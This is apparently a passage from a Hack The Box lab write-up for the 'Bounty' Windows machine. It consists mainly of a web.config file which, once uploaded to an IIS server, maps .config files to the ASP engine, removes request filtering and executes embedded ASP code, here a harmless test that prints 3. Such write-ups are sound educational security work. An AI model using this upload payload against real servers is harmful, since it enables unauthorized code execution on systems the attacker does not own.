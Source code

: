 ![](/assets/img/htb/machines/windows/easy/bounty/search.png)

Uploading this file results in running ASP code on the target server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
```